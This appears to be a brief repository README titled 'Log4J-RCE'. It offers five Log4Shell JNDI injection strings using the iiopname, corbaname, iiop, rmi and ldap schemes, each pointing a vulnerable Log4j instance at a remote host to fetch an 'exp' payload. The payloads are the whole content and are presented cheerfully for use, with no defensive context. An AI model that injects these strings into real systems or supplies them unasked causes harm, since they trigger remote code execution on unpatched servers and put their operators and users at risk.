 # Log4J-RCE
Enjoy it ！ o(*￣︶￣*)o

${jndi:iiopname://1.2.3.4/exp}

${jndi:corbaname:iiop:1.2.3.4/exp}

${jndi:iiop://1.2.3.4/exp}

${jndi:rmi://1.2.3.4/exp}

${jndi:ldap://1.2.3.4/exp}
